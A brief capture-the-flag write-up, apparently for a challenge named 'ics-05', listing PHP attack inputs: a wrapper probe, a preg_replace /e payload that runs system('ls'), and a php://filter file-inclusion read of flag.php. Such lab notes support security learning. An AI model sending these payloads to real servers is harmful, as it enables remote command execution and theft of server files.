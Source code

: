 
# ics-05

* php伪协议
>  ?page=php:

* 扫描当前目录
> ?pat=/test/e&rep=system('ls')&sub=test

* 利用前面的文件包含获取 flag.php
> ?page=php://filter/read=convert.base64-encode/resource=s3chahahaDir/flag/flag.php

